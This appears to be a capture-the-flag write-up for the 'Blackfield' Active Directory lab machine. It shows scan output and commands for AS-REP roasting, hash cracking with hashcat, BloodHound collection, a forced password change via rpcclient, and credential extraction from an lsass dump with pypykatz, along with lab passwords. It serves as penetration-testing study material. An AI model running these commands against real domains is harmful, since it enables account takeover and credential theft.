

# Blackfield

## Key Take Aways

* ASREP Roasting
* Force change password
* Lsass dump

## NMAP

``` console
10.129.229.17:53
10.129.229.17:88
10.129.229.17:139
10.129.229.17:135
10.129.229.17:389
10.129.229.17:389
10.129.229.17:445
10.129.229.17:445
10.129.229.17:593
10.129.229.17:3268
10.129.229.17:5985

PORT STATE SERVICE REASON VERSION

53/tcp open domain syn-ack ttl 127 Simple DNS Plus
88/tcp open kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-10-09 16:52:08Z)
135/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC
139/tcp filtered netbios-ssn no-response
389/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds? syn-ack ttl 127
593/tcp open ncacn_http syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp filtered ldapssl no-response
3268/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
3269/tcp filtered globalcatLDAPssl no-response
5985/tcp open http syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp filtered adws no-response
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB


We can get usernames via profles$ share and use it with ASREP Roasting.

``` bash
mask ""
recurse ON
prompt OFF
cd 'path\to\remote\dir'
lcd '~/path/to/download/to/'
mget *
```

## ASREP Roasting

```bash
impacket-GetNPUsers BLACKFIELD.local/ -usersfile user.txt -format hashcat -outputfile hashes.asreproast

hashcat -m 18200 --force -a 0 hashes.asreproast /user/share/worldists/rockyou.txt
```


As mentioned above we still can't access the content of the forensic share.

## BloodHound

```bash
bloodhound-python -c all -u "support" -p "#00^BlackKnight" -d blackfield.local -dc dc01.blackfield.local -ns 10.129.229.17 --zip
```





## rpcclient

As mentioned at [here](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword) rpcclient gets the job done easier.

```bash
rpcclient -U blackfield.local/support dc01.blackfield.local
```


## Access Foresic share

```bash
nxc smb blackfield.local -u audit2020 -p 'Test!!!!' --shares
```


we can extract lsass.DMP from memory_analysis/lsass.zip


## lsass dump

```bash
pypykatz registry --sam sam system
```

[reference](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux)


